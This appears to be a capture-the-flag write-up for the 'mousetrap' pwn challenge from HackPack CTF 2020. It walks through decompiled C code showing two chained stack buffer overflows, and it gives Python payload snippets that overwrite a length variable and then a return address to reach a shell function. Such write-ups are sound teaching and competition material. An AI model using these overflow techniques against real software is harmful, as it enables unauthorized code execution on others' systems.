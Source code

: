 
## mousetrap (232pt)
### Description

> Are you savvy enough to steal a piece of cheese?
>
> nc cha.hackpack.club 41719

### Attachment

[mousetrap](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/HackPark-CTF-2020/pwn/mousetrap/mousetrap)

### Analysis

When I try to input a long serials of `'a'` I see that:

![](http://image.taqini.space/img/20200429192949.png)

that means some variable was overwritten.

Then analyze the program:

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char v4; // [rsp+10h] [rbp-120h]
  char v5; // [rsp+110h] [rbp-20h]
  __int64 v6; // [rsp+128h] [rbp-8h]

  v6 = 10LL;
  init(*(_QWORD *)&argc, argv, envp);
  menu();
  set_mouse_name(&v5);
  deactivate_trap(&v4, v6);
  grab_cheese(&v4);
  printf("SNAAAAAAAP! you died!");
  return 0;
}
```


```c
ssize_t __fastcall set_mouse_name(void *a1){
  printf("Name: ");
  return read(0, a1, 0x20uLL);
}
```
> read 32  bytes to `v5` while size of `v5` is only 24 bytes
>
> So we can overwrite backward to `v6` with 8 bytes

```c
ssize_t __fastcall deactivate_trap(__int64 a1, __int64 a2){
  size_t nbytes; // ST00_8
  void *buf; // ST08_8

  printf("Enter Code Sequence of %ld: ", a2, a2, a1);
  return read(0, buf, nbytes);
}
```

> In gdb we can see that`v6` is `nbytes` 
>
> We can control the value of `v6` so we can read as **many** as possible bytes to `buf`


```c
char *__fastcall grab_cheese(const char *a1){
  char dest; // [rsp+10h] [rbp-10h]

  return strcpy(&dest, a1);
}
```

> copy `buf` to `dest[0x10]` (buffer overflow again)

```c
int cheeeeeeeese(){
  return system("/bin/sh");
}
```

> When we call `cheeeeese`, we can get an shell.

### Solution

Overwrite `v6/nbytes` with 1000 (enough to overflow `dest`)

```python
payload = 'A'*24
payload += p64(1000)
sea('Name: ',payload)
```

Overwrite return address with `cheeeeese`

```python
cheeeeese = 0x040071B
pl2 = 'B'*24
pl2 += p64(cheeeeese)
sla('Enter Code Sequence of 1000: ',pl2)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/HackPark-CTF-2020/pwn/mousetrap) 


